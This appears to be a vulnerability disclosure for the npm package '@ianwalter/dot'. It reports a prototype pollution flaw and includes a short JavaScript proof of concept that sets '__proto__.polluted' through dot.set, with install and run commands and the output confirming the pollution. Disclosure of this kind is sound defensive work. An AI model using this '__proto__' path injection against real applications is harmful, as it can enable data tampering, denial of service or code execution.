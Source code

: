 # Description

`@ianwalter/dot` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var dot = require("@ianwalter/dot")
var obj = {}
console.log("Before : " + {}.polluted);
dot.set(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i @ianwalter/dot # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
